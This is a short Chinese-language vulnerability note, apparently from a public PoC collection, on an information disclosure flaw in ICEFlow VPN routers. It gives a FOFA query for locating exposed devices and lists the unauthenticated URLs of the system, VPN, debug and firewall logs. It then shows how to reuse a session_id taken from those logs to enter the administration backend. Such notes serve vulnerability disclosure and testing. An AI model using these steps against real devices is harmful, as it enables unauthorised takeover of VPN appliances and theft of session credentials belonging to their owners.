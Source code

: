 # ICEFlow VPN 信息泄露漏洞

## 漏洞描述

ICEFlow VPN 存在信息泄露漏洞，攻击者可以查看日志中的敏感数据来进一步攻击系统

## 漏洞影响

> [!NOTE]
>
> ICEFlow VPN

## FOFA

> [!NOTE]
>
> title="ICEFLOW VPN Router"

## 漏洞复现

可访问的日志 Url

```
系统日志    http://url/log/system.log
VPN日志    http://url/log/vpn.log
访问日志	http://url/log/access.log
告警日志	http://url/log/warn.log
错误日志	http://url/log/error.log
调试日志	http://url/log1/debug.log
移动用户日志 http://url/log/mobile.log
防火墙日志	http://url/log/firewall.log
```

![](image/ice-1.png)

根据日志信息获得session后，可利用实时登录系统管理后台：

```
http://xxx.xxx.xxx.xxx/cgi-bin/index?oid=10&session_id=xxxxxxxxxxxxxx&l=0
```

## Goby & POC

> [!NOTE]
>
> ICEFlow VPN 信息泄露漏洞

![](image/ice-2.png)

## 参考文章

https://www.uedbox.com/post/18720/